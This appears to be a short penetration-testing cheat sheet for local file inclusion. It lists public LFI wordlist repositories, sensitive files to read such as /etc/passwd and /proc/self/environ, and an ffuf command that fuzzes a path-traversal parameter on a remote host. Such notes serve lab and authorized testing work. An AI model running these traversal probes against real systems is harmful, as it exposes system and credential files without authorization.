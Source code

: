 # wordlists

- /opt/repo/hacking-handbook
- https://github.com/drtychai/wordlists/blob/master/intruder/lfi.txt
- https://github.com/hussein98d/LFI-files/blob/master/list.txt
- https://github.com/rowbot1/lfi.list/blob/master/list.list
- https://github.com/carlospolop/Auto_Wordlists
- https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders

# files to check

- /proc/self/cmdline
- /proc/sched_debug
- /etc/passwd
- /proc/self/environ
- /proc/1/cmdline

# use ffuf to fuzz

```bash
ffuf -c -u "http://$rhost/lfi.php?read=../../../../../../../../../../FUZZ" -w wordlist -mc '200,204,301,302,307,401,405,403'
```
